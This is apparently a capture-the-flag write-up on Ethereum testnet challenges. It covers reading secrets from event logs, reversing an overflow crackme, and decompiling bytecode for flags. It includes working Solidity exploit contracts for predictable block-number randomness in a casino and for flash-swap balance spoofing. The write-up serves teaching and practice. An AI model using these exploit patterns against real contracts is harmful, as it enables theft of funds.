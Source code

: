 # Blockchain

- [Blockchain](#blockchain)
  - [sanity check](#sanity-check)
    - [Cheeky Way](#cheeky-way)
  - [secure_enclave](#secure_enclave)
  - [crackme.sol](#crackmesol)
    - [Cheeky Way](#cheeky-way-1)
  - [crypto casino](#crypto-casino)
    - [Cheeky Way](#cheeky-way-2)
  - [RICH CLUB](#rich-club)
    - [The Correct Way To Do It](#the-correct-way-to-do-it)
      - [The Exploit](#the-exploit)
      - [The Problem](#the-problem)

Most of these challenges had two possible solutions,
the intended solution and the cheeky solution.
I'll start with the intended solutions and go through the cheeky one in the end.

Notice that you can do all these challenges yourself.
Since **_nothing leaves the chain_**.

An Ethreum wallet is required. For this writeup though, I assume you have one.

> *If you do not have a wallet, head on to <https://hackernoon.com/how-to-use-remix-and-metamask-to-deploy-smart-contracts-on-the-rsk-testnet-zt393xfz>, the link goes through the necessary details to setup a Metamask wallet and Remix.*

## sanity check

We were given an address (`0x5CDd53b4dFe8AE92d73F40894C67c1a6da82032d`) and a contract which is fairly simple:

```solidity
pragma solidity ^0.7.0;
//SPDX-License-Identifier: UNLICENSED

contract sanity_check {
    function welcome() public pure returns (string memory){
        return "flag{}";
    }
}
```

We just need to call the contract and get the flag.
To do so we can setup an elaborate JS environment with truffle and friends,
or we can use the Remix IDE (https://remix.ethereum.org/).

Create a file and put the contract source there.
Once compiled, the *Deploy & Run Transactions* tab should look like this:

<img src="../../../assets/code/ctfs/blockchain/deploy_run.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

Adding the challenge address to that *At Address* and clicking on it should add a new contract to the *Deployed Contracts* below.
Click on the `welcome` function, the flag should appear.

<img src="../../../assets/code/ctfs/blockchain/at_addres_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

> If nothing appears, try to reload the page. Remix can be a bit temperamental.

### Cheeky Way

Search for the contract on Etherscan, decompile it, get the flag.

<https://rinkeby.etherscan.io/bytecode-decompiler?a=0x5cdd53b4dfe8ae92d73f40894c67c1a6da82032d>

## secure_enclave

For this challenges we were given a "secure" enclave.
In this case, a wallet owner can set a secret and only the owner can read it back.

```solidity
pragma solidity ^0.6.0;

contract secure_enclave {
    event pushhh(string alert_text);

    struct Secret {
        address owner;
        string secret_text;
    }

    mapping(address => Secret) private secrets;

    function set_secret(string memory text) public {
        secrets[msg.sender] = Secret(msg.sender, text);
        emit pushhh(text);
    }

    function get_secret() public view returns (string memory){
        return secrets[msg.sender].secret_text;
    }
}
```

To achieve this, the contract uses that `mapping` which is a map between addresses and `Secret`.
So our only option to retrieve the secret would be to guess the flag's owner address and pretend to be them.
That does not sound easy, and it is not even possible without getting access to the original wallet.

However, whenever a secret is stored a message is emitted.
Emitted events are stored in the transactions logs, they are used as debug and auditing tools.
Since they are stored in the logs, and logs are permanent, sensitive information should not be logged.

> Read more about events in <https://docs.soliditylang.org/en/v0.8.0/contracts.html#events>.

Notice how whenever a secret is set, an event is emitted.
This means that at a given time the flag was probably logged, we just need to retrieve it.
To do so we search for the challenge address (`0x9B0780E30442df1A00C6de19237a43d4404C5237`) in <https://rinkeby.etherscan.io/>.

> Etherscan is where you can search for transactions, wallets and more. If it has an address, it is probably there.

Going back to the start of transactions in <https://rinkeby.etherscan.io/txs?a=0x9B0780E30442df1A00C6de19237a43d4404C5237>
shows us a series of transactions from the same account that issued the contract. Bingo.
We just need to search the logs one by one until we get the flag.

For example: The first transaction stored the value `first`.

<img src="../../../assets/code/ctfs/blockchain/secure_enclave_first.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;">


> To convert from hexadecimal to text, select the menu on the numbers left and select `Number`.

<img src="../../../assets/code/ctfs/blockchain/secure_enclave_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;">


## crackme.sol

This one almost *cracked me* (get it?), but I'll get to why later. We are given a crack me:

```solidity
pragma solidity ^0.6.0;

contract crack_me{

    function gib_flag(uint arg1, string memory arg2, uint arg3) public view returns (uint[]){
        //arg3 is a overflow
        require(arg3 > 0, "positive nums only baby");
        if ((arg1 ^ 0x70) == 20) {
            if(keccak256(bytes(decrypt(arg2))) == keccak256(bytes("offshift ftw"))) {
                uint256 check3 = arg3 + 1;
                if( check3< 1) {
                    return flag;
                }
            }
        }
        return "you lost babe";
    }

    function decrypt(string memory encrypted_text) private pure returns (string memory){
        uint256 length = bytes(encrypted_text).length;
        for (uint i = 0; i < length; i++) {
            byte char = bytes(encrypted_text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(encrypted_text,0x20), mul(i,1)), sub(char,16))}
            }
        }
        return encrypted_text;
    }
}
```

When we put this code in Remix, we immediately notice it does not compile.
So we whip up real quick to make it compile, like changing the output to `string memory` and make the flag variable a `string`. Like this:

```solidity
function gib_flag(uint arg1, string memory arg2, uint arg3) public view returns (string memory){
    //arg3 is a overflow
    require(arg3 > 0, "positive nums only baby");
    if ((arg1 ^ 0x70) == 20) {
        if(keccak256(bytes(decrypt(arg2))) == keccak256(bytes("offshift ftw"))) {
            uint256 check3 = arg3 + 1;
            if (check3 < 1) {
                return "flag";
            }
        }
    }
    return "you lost babe";
}
```

Let's start reversing. We can start by the `gib_flag` function.
It takes three arguments: `uint arg1`, `string memory arg2`, `uint arg3`.

Line by line we read straight away:

```solidity
//arg3 is a overflow
require(arg3 > 0, "positive nums only baby");
```

So the author told us what to do and we can check that it is an overflow in the last check:

```
uint256 check3 = arg3 + 1;
if (check3 < 1) {
    return "flag";
}
```

So `arg3` must be `2 ** 256 - 1`.
Moving on to the remaining arguments, we see that `arg1 ^ 0x70` must be equal to `20`.
This is also easy, we have `a ^ b = c` where we know `b` and `c`, so we XOR them together and get the result.
`0x70 ^ 0x20 = 80`, `arg1` is done.

Moving on to the last and most difficult.
I started reversing it by hand and noticed it was some kind of Caesar cipher.
But then I noticed I could fairly easy manipulate the characters one by one and crack it that way.

Since the decrypt function was private, I copied the code to a separate contract, deployed it started experimenting.
You can access it here (`0x71018b714767d056edBcf788bb8494AEE2e129f4`).

```solidity
contract helper {
    function decrypt(string memory encrypted_text) public pure returns (string memory){
        uint256 length = bytes(encrypted_text).length;
        for (uint i = 0; i < length; i++) {
            byte char = bytes(encrypted_text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(encrypted_text,0x20), mul(i,1)), sub(char,16))}
            }
        }
        return encrypted_text;
    }
}
```

While I did it the dumb way, the smart way was noticing the shift would wrap around for lowercase letters,
see that it was a ROT16 cipher and go to CyberChef <https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,16)&input=b2Zmc2hpZnQgZnR3> to find that `arg2` is `evvixyvj vjm`.

We have our ingredients to lets try to get the flag.
Add the address of the contract as we did with the first contract,
get the small window on remix and send:

<img src="../../../assets/code/ctfs/blockchain/crackme_string.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

So what happened? Remember how we switched the function signature to `string`?
That's the problem (the start). Let us change it back to `uint[]`, keep the `memory` and replace the strings with `new(uint[])`.
Use the `At Address` again and retry.

<img src="../../../assets/code/ctfs/blockchain/crackme_buffer.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

> So what now?

See the problem is we did not give a size for the flag.
The array must have a size in the return function.
Give it one like `256`, make sure there is enough space!

About the return value, create a variable like `uint256[256] memory f` and just return that.

<img src="../../../assets/code/ctfs/blockchain/crackme_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

I'll drop the charade now, the correct size is `26`.
How did I figure it out? By starting at `1` and changing incrementally.

```python
flag = [67,48,110,103,114,64,55,53,95,89,48,117,95,67,82,64,67,75,51,68,95,109,51,56,53,52]
print("".join(map(chr, flag))
> 'C0ngr@75_Y0u_CR@CK3D_m3854'
```

How could you know the array size?
You could decompile the code and notice the `while idx < 26` there.

### Cheeky Way

Just like the first, decompile and look at the code (<https://rinkeby.etherscan.io/bytecode-decompiler?a=0xdb2f21c03efb692b65fee7c4b5d7614531dc45be>).

You'll notice this block of code:
```
mem[_40] = 51
mem[_40 + 32] = 64
mem[_40 + 64] = 30
mem[_40 + 96] = 23
mem[_40 + 128] = 2
mem[_40 + 160] = 48
mem[_40 + 192] = 71
mem[_40 + 224] = 69
mem[_40 + 256] = 47
mem[_40 + 288] = 41
mem[_40 + 320] = 64
mem[_40 + 352] = 5
mem[_40 + 384] = 47
mem[_40 + 416] = 51
mem[_40 + 448] = 34
mem[_40 + 480] = 48
mem[_40 + 512] = 51
mem[_40 + 544] = 59
mem[_40 + 576] = 67
mem[_40 + 608] = 52
mem[_40 + 640] = 47
mem[_40 + 672] = 29
mem[_40 + 704] = 67
mem[_40 + 736] = 72
mem[_40 + 768] = 69
mem[_40 + 800] = 68
```

Followed by `mem[(32 * idx) + _35] = uint8(112 xor mem[(32 * idx) + _40])`. So we can just.

```python
enc_flag = [51,64,30,23,2,48,71,69,47,41,64,5,47,51,34,48,51,59,67,52,47,29,67,72,69,68]
print("".join([chr(c ^ 112) for c in enc_flag]))
> 'C0ngr@75_Y0u_CR@CK3D_m3854'
```

Easy.

## crypto casino

This one is fairly easy and the exploit is really cool.

```solidity
pragma solidity ^0.6.0;

contract casino {
    bytes32 private seed;
    mapping(address => uint) public consecutiveWins;

    constructor () public{
        seed = keccak256("satoshi nakmoto");
    }

    function bet(uint guess) public{
        uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;
        if (guess == num) {
            consecutiveWins[msg.sender] = consecutiveWins[msg.sender] + 1;
        } else {
            consecutiveWins[msg.sender] = 0;
        }
    }

    function done() public view returns (uint16[] memory) {
        if (consecutiveWins[msg.sender] > 1) {
            return [];
        }
    }
}
```

We need to guess the result twice to get the flag.
Everything is deterministic, the seed, the XOR, the hash and the ABI call.
Almost everything! The `block.number` is not.

Before searching Google, how could we guess it?
Maybe see the last block by hand and try.
But that would not work, the transactions are queued, and we never know the final block.
We could bruteforce it but whenever one guess fails we are back to the start.

So, searching Google on how to predict the block number you would probably find this:
<https://medium.com/@saurfang/lets-play-capture-the-ether-lotteries-part-ii-478365775a34>.

Reading through it you'll find that *you* can't predict the block number.
But your contract can.
And Ethereum has this *looking back its obvious property* that if the contract calls another one,
all operations must be put into the same block, for consistency reasons.

So, to break the casino you just need to replicate the "random" number generation and call the bet twice from your code.
The exploit looks like the following:

```solidity
contract exploit {
    bytes32 private seed;
    constructor () public{
        seed = keccak256("satoshi nakmoto");
    }

    function bet() public {
        uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;
        casino c = casino(0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59);
        c.bet(num);
        c.bet(num);
    }
}
```

After running you can call `consecutiveWins` on the contract they gave you (0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59).
To get the flag you need to call done, the strategy to get the array size is the same as the previous challenge.

```python
flag = [102,108,97,103,123,68,51,67,78,55,82,64,108,49,90,51,68,95,67,64,53,49,78,48,83,95,53,117,99,107,53,51,49,125]
"".join(map(chr, flag))
> flag{D3CN7R@l1Z3D_C@51N0S_5uck531}
```

### Cheeky Way

Just like the previous challenge, head on to <https://rinkeby.etherscan.io/bytecode-decompiler?a=0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59> and decompile the code.

The values are different but that is not a problem.

```
mem[4448] = 51000
mem[4480] = 15 * 3600
mem[4512] = 48500
mem[4544] = 51500
mem[4576] = 61500
mem[4608] = 34000
mem[4640] = 25500
mem[4672] = 33500
mem[4704] = 39000
mem[4736] = 27500
mem[4768] = 41000
mem[4800] = 32000
mem[4832] = 15 * 3600
mem[4864] = 24500
mem[4896] = 45000
mem[4928] = 25500
mem[4960] = 34000
mem[4992] = 47500
mem[5024] = 33500
mem[5056] = 32000
mem[5088] = 26500
mem[5120] = 24500
mem[5152] = 39000
mem[5184] = 24000
mem[5216] = 41500
mem[5248] = 47500
mem[5280] = 26500
mem[5312] = 58500
mem[5344] = 49500
mem[5376] = 53500
mem[5408] = 26500
mem[5440] = 25500
mem[5472] = 24500
mem[5504] = 62500
```

Just do the same as they do: `mem[(32 * idx) + 2272] = uint16(mem[(32 * idx) + 4478 len 2] / 500)`

```python
enc_flag = [51000,15 * 3600,48500,51500,61500,34000,25500,33500,39000,27500,41000,32000,15 * 3600,24500,45000,25500,34000,47500,33500,32000,26500,24500,39000,24000,41500,47500,26500,58500,49500,53500,26500,25500,24500,62500]
print("".join([chr(c // 500) for c in enc_flag]))
> flag{D3CN7R@l1Z3D_C@51N0S_5uck531}
```

## RICH CLUB

This final challenge was added as a tie-breaker. It was awful and as far as I am aware no one actually pulled off the correct way to solve the challenge.
I'll start by discussing the contract and then introduce the solution I used and the solution I should have used.

```solidity
pragma solidity ^0.6;
//SPDX-License-Identifier: MIT

interface ERC20 {
    function balanceOf(address account) external view returns (uint256);
}

contract RICH_CLUB {
    ERC20 UNI;
    event new_member(string pub_key);
    event send_flag(string pub_key, string flag);

    constructor() public{
        UNI = ERC20(0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984);
    }

    function grant_membership(string memory _pub_key) public {
        require(bytes(_pub_key).length > 120, "invalid public key");
        require(UNI.balanceOf(msg.sender) >= 6e20, "you don't look rich to me");
        emit new_member(_pub_key);
    }

    function grant_flag(string memory _pub_key, string memory encoded_flag) public{
        require(msg.sender == address(0x30cE246A1282169895bf247abaE77BA69d5B2416), "you don't have access to this");
        emit send_flag(_pub_key, encoded_flag);
    }
}
```

The contract is simple, there are two functions `grant_membership` and `grant_flag`.
We are supposed to enter the club and a bot should grant us membership.
To enter the club, we send a public key and the function will check if we meet the requirements.

The public key had to be Ethereum compliant, which is `secp256k1`, you can generate a key-pair with `openssl`.
See here for more <http://www.herongyang.com/EC-Cryptography/EC-Key-secp256k1-with-OpenSSL.html>.

So, after generating a valid key we need to pass the second check, having `6e20` UNI coins in our account.
This is around 10 ETH, which we can easily get from a faucet.
To get the coin can go to <https://app.uniswap.org/#/swap> and swap them out.

This would yield the required coin, we would pass the check and an encrypted flag would be emitted.

> This is the only challenge that is not doable after the CTF since the flag emitter is a bot.
> I believe the bot is probably down.

The successful transaction looks like this: <https://rinkeby.etherscan.io/tx/0x0a60eb958bd34785c3e4cf06ad961ad66c1ac04401ad6ffb4cbb158e32eba46f#eventlog>.
The reply is in: <https://rinkeby.etherscan.io/tx/0xc5c7c98c7336422a3df076766444399ded7d68a907678f26950ec95264e1febc#eventlog>.

Converting the second part of the log to text would yield a Python byte string which we had to decrypt.
To do so, I used `ecies` (<https://github.com/ecies/py> their page is great to know more!).

You would write the following code (where `k` is your private key and `i` the received byte string).

```python
import ecies
ecies.decrypt(k, i)
> b'flag{l0@ns_ar3nt_7ha7_b@d_tbh8877}'
```

### The Correct Way To Do It

So, what makes this the right way to do it? Well, the admins said so.
I'll walk you through my process.

When the challenge came out, I had been snooping around the authors contracts.
While I didn't find anything interesting before, I did after.
I noticed the author of the challenge contract deployment had made some transactions to the contract, which failed.

This was one of them: <https://rinkeby.etherscan.io/tx/0xd69cc825db48b8d7083f76622002e3cbdba692444262a74c1b06bbead20c2576>.
Clicking in see more we can see:

```
Function: flashSwap(address _tokenBorrow, uint256 _amount, address _tokenPay, bytes _userData) ***

MethodID: 0x0322c064
[0]:  0000000000000000000000001f9840a85d5af5bf1d1762f925bdaddc4201f984
[1]:  00000000000000000000000000000000000000000000002086ac351052600000
[2]:  0000000000000000000000001f9840a85d5af5bf1d1762f925bdaddc4201f984
[3]:  0000000000000000000000000000000000000000000000000000000000000080
[4]:  0000000000000000000000000000000000000000000000000000000000000040
[5]:  f2d02606c02b1db40951e1dfc2432a851e41e652947d68ff009c0e09bb8990ea
[6]:  5417592a2785e4817d65a55c185d8f2be64643265a8b5464165f8e121cb75140
```

From here, I searched for `flashSwap` on Google and found Uniswap, which allows for such kind of transactions <https://uniswap.org/docs/v2/smart-contract-integration/using-flash-swaps/>.
So why is this relevant?

Flash swaps allow you to pretend to have the tokens, you ask for them to Uniswap,
they lend you the tokens and in the end of the transaction you return them.

This is all fine and dandy until you notice the API is a mess and imports in Remix don't really work that well.
During my search for a better method I found: <https://github.com/Austin-Williams/uniswap-flash-swapper>, which is the actual code used in the previous Etherscan link.

#### The Exploit

Following the provided examples, getting the code to run is easy.

```solidity
contract ExampleContract is UniswapFlashSwapper {
    constructor(address _DAI, address _WETH) public UniswapFlashSwapper(_DAI, _WETH) {}

    function flashSwap(address _tokenBorrow, uint256 _amount, address _tokenPay, bytes calldata _userData) external {
        startSwap(_tokenBorrow, _amount, _tokenPay, _userData);
    }

    function execute(address _tokenBorrow, uint _amount, address _tokenPay, uint _amountToRepay, bytes memory _userData) internal override {
        RICH_CLUB club = RICH_CLUB(0xC7bEc01281648D3A7F9BB86B811A2de5B1E0cc61);
        string memory pub_key = "04df58e67b36a2de27b51e3673ed0040db93a44c71029071170dca30d98fb65b5b34b2c3009f3e031640f46924967db0651a750052a1cdafa577a50d0883ed1808";
        club.grant_membership(pub_key);
    }
}
```

Now you deploy with the ERC20 (`0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984`) and WETH (`0xc778417E063141139Fce010982780140Aa0cD5Ab`) addresses and call the `flashSwap` functions with the following parameters:
- `0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984`
- `600000000000000000000`
- `0xc778417E063141139Fce010982780140Aa0cD5Ab`
- `[0]`

This would execute the trade and call the function in `execute`.

You could also deploy a contract that did all this for you, in this case the contract would encode the function `f()` and pass it as bytecode:

```solidity
contract Exploit {
    function f() public {
        RICH_CLUB club = RICH_CLUB(0xC7bEc01281648D3A7F9BB86B811A2de5B1E0cc61);
        string memory pub_key = "04df58e67b36a2de27b51e3673ed0040db93a44c71029071170dca30d98fb65b5b34b2c3009f3e031640f46924967db0651a750052a1cdafa577a50d0883ed1808";
        club.grant_membership(pub_key);
    }

    function run() public {
        ExampleContract ec = ExampleContract(0xE1637EDDFaeabbfd9FE616E34581D62D0E839368);
        bytes memory payload = abi.encodeWithSignature("f()");
        ec.flashSwap(0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984, 600000000000000000000, 0xc778417E063141139Fce010982780140Aa0cD5Ab, payload);
    }
}
```

This would grant you membership and allow you to access the club.
I was ready to first blood the challenge, so what went wrong?

#### The Problem

The code wouldn't work, why? I still don't know, but I knew for sure it ran all the functions right.
From my experiments, it was not my problem, but rather the code I got from GitHub.
I believe it was not returning the tokens correctly.

I also did not find the error since the error was `[object Object]`.
*Remix being helpful*.

If you ever find the problem, tweet me [@duartejmg](https://twitter.com/duartejmg).